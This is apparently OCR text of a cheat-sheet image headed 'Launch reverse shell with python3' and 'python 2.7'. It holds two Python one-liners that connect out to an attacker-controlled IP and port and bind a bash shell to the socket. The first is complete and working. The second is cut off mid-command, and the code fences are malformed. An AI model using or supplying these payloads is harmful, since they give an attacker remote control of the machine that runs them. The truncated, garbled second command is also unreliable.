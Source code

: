 ### Launch reverse shell with python3
```exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

### Launch reverse shell with python 2.7

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))``


